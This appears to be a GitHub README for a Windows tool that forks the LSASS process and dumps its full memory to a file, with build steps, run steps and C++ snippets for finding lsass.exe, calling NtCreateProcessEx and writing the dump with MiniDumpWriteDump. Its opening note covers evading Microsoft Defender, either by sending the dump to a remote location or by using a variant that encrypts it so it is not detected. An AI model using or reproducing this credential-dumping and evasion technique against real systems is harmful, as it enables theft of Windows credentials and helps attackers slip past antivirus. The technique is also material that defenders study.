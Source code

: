 
# LSASS Fork and Dump

Note: While the executable is not flagged by Defender, the .dmp file that is written to disk will be flagged. Dump it to a remote location. 
OR
Use the ForkEncryptDump - this will dump encrypt the .dmp in memory and then push it to disk encrypted so it will not be detected

This project demonstrates how to create a fork of the LSASS process and dump its memory using the Windows API. This can be useful for forensic analysis and security research.

## Features

- Locates the LSASS process by name.
- Uses `NtCreateProcessEx` to create a fork of the LSASS process.
- Dumps the memory of the forked process to a file using `MiniDumpWriteDump`.

## Prerequisites

- Windows operating system
- Visual Studio or any other C++ compiler
- Administrator privileges

## Libraries and Dependencies

- `windows.h`
- `DbgHelp.h`
- `TlHelp32.h`
- `winternl.h`
- `tchar.h`
- Link with `Dbghelp.lib` and `ntdll.lib`

## How to Build

1. Clone the repository.
2. Open the project in Visual Studio or your preferred C++ development environment.
3. Ensure that you have linked `Dbghelp.lib` and `ntdll.lib` in your project settings.
4. Build the project.

## How to Run

1. Ensure you are running with administrator privileges.
2. Execute the compiled binary.
3. The program will create a memory dump of the forked LSASS process and save it as `lsass_forked.dmp`.

## Code Explanation

### Finding LSASS PID

The program takes a snapshot of all running processes and iterates through them to find the process with the name `lsass.exe`.

```cpp
HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
PROCESSENTRY32 processEntry = {};
processEntry.dwSize = sizeof(PROCESSENTRY32);

if (Process32First(snapshot, &processEntry)) {
    do {
        if (_wcsicmp(processEntry.szExeFile, L"lsass.exe") == 0) {
            lsassPID = processEntry.th32ProcessID;
            break;
        }
    } while (Process32Next(snapshot, &processEntry));
}
```

### Creating Forked Process

The program uses `NtCreateProcessEx` to create a new process that is a fork of the LSASS process.

```cpp
pNtCreateProcessEx NtCreateProcessEx = (pNtCreateProcessEx)GetProcAddress(hNtdll, "NtCreateProcessEx");
NTSTATUS status = NtCreateProcessEx(&forkedProcess, PROCESS_ALL_ACCESS, NULL, lsassHandle, 0, NULL, NULL, NULL);
```

### Dumping the Forked Process

The program uses `MiniDumpWriteDump` to create a dump of the forked process.

```cpp
DWORD forkedProcessPID = GetProcessId(forkedProcess);
BOOL isDumped = MiniDumpWriteDump(forkedProcess, forkedProcessPID, outFile, MiniDumpWithFullMemory, NULL, NULL, NULL);
```

## License

This project is licensed under the MIT License.

